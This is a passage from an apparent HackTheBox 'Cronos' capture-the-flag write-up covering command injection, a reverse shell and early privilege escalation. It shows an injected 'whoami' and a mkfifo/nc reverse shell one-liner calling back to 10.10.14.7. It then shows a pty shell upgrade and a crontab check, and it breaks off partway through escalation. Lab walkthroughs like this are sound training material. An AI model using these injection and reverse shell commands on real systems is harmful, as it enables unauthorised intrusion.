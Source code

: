 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%206.png)

---

### Remote Code Execution (RCE)

We managed to inject linux commands with “`;" + "command"`

```bash
8.8.8.8; whoami
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%207.png)

# Exploration

## Exploring RCE

```bash
8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%208.png)

**HABEMUS SHELL!!!**

# Post Exploration

## www-data → root

### Spawn Shell

```bash
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
export SHELL=bash
export TERM=xterm-256color
```

### Enumeration

The Linpeas output reveals a php file running as root as a scheduled task in crontab.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%209.png)

```bash
cat /etc/crontab
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%2010.png)

We have write permission and this file is executable as root.
